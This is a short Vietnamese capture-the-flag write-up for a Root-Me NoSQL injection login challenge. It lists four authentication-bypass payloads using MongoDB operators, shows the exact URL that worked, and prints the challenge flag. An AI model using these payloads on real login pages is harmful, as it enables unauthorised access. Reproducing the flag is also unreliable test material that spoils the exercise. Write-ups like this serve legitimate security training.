



# NoSQL injection - Authentication

## Đề bài

Link: [http://challenge01.root-me.org/web-serveur/ch38/](http://challenge01.root-me.org/web-serveur/ch38/)





## Hướng giải

Đây là dạng NoSQL injection, ta tham khảo các payload [🔗tại đây](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

Một số payload thông dụng:

```
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

Ta thấy, với payload như sau, ta thu được flag:

> http://challenge01.root-me.org/web-serveur/ch38/?login[$gt]=admin&login[$lt]=test&pass[$ne]=1



Vậy key là: `nosqli_no_secret_4_you`.